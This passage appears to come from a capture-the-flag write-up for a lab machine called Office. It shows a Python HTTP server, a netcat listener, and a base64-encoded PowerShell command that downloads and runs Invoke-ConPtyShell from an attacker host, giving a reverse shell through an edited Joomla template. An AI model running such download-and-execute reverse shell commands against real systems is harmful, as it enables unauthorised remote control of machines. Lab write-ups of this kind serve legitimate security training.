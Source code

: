 But first, we have to fire up a listener to receive the shell and a HTTP server for powershell to interpret [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) that will give us a stable shell:

```bash
❯ ls Invoke-ConPtyShell.ps1
Invoke-ConPtyShell.ps1
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

Now modify the template and execute a powershell command to receive the shell:

![Editing template file in Joomla](/assets/images/Office/editing-template-file-joomla.png)

```bash
❯ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.67/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.67 -RemotePort 443 -Rows 50 -Cols 184" | iconv -t utf16le | base64 -w 0; echo
```

> Note: You can view the necessary rows and columns for the command above in a entire window with command `stty size`. It's not recommended to split the terminal or change the size of the window when you have specified the rows and columns because it will look bad.

![Executing reverse shell](/assets/images/Office/executing-reverse-shell.png)
